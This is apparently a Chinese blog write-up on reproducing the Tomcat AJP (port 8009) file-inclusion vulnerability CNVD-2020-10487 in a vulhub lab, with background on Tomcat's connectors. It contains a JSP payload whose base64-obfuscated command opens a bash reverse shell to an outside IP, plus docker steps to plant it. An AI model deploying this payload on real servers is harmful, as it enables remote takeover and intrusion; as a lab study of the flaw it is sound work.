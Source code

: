 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qa6wl8nUiaF1oOW956aoKiaRH0591KdRicQs1x7I5zWicibAESaB4JYCViaY0A/640?wx_fmt=jpeg)

从图中可以看出，Tomcat 最顶层的容器是 Server，其中包含至少一个或者多个 Service，一个 Service 有多个 Connector 和一个 Container 组成。

这两个组件的作用为:

1、Connector 用于处理连接相关的事情，并提供 Socket 与 Request 和 Response 相关的转化；  
2、Container 用于封装和管理 Servlet，以及具体处理 Request 请求

Tomcat 默认的`conf/server.xml`中配置了 2 个 Connector，

一个为 8080 端口 HTTP 协议 (1.1 版本) 端口，默认监听地址：`0.0.0.0:8080`

另外一个就是默认的 8009 AJP 协议 (1.3 版本)，默认监听地址为：`0.0.0.0:8009`，两个端口默认均监听在外网。此次漏洞产生的位置便是 8009 AJP 协议，此处使用公开的利用脚本进行测试，可以看到能读取`web.xml`文件

#### 漏洞复现

利用 vulhub

```
<%
    java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NS4xOTEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}").getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
%>

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaAyTHnayPystIPazTG4MLLasEsOuLD06NXRJZkcQJV8YbEEh26nmmyg/640?wx_fmt=jpeg)

Poc 地址：

https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi

脚本是基于 Python2 的

它可以看 webapps 目录下的所有东西

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaibuPJy3zkIjCPPMZ2hI0I3TNhBu5dnqhvK4wMqywvy8spcTBgbGBicAg/640?wx_fmt=jpeg)

可以看到它的语法要求

```
sudo docker ps

```

```
sudo docker cp /home/dayu/Desktop/1.txt 6c80deb9d194:/usr/local/tomcat/webapps/ROOT

```
